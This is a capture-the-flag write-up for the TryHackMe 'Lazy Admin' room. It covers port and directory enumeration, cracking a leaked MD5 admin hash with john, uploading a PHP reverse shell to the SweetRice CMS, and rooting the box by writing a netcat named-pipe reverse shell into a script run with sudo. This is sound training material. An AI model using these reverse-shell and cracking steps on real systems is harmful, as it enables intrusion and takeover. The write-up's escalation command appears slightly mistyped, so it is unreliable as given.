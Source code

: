 # Lazy Admin

[link to room](https://tryhackme.com/room/lazyadmin)

1. user flag

echo machine-ip lazyadmin.com >> /etc/hosts

## Enumeration
nmap -sC -sV -oN nmap.txt lazyadmin.com
```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```
```bash
firefox lazyadmin.com
```
We will run gobuster to enumerate the website
```bash
gobuster dir -u http://lazyadmin.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/content
```
```bash
firefox lazyadmin.com/content
```
```lazyadmin.com/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/inc
```
```bash
firefox lazyadmin.com/content/inc
```
```
we will see a folder named mysql_backup
navigate to mysql_backup and download the file
open the file using any text editor i use vim
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
manager : 42f749ade7f9e195bf475f37a44cafcb(MD5)
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```creds
manager : Password123
```
```bash
firefox lazyadmin.com/content/as
```
and enter the creds to login
and navigate to media center
and upload the reverse shell if you dont have you can download it from the link below
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
after changing the ip address and renaming it to revshell.php5
we see the file is uploaded
open terminal and execute this
```bash
nc -lnvp 4444
``` 
now click on the uploaded file
and we got a shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
enter these two commands to spawn a tty terminal
move to /home/itguy

```
we got the user flag
```

2. root flag

##Privilege Escalation
```mysql.backup
rice : randompass
```
```back.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Luckily we can write into copy.sh 
now all we need to do is insert a reverse shell
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 5554" >/tmp/f > copy.sh
```
open a new terminal and run this command
```bash
nc -lnvp 5554
```
then go victim shell and execute this command
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```
we got the user flag
```
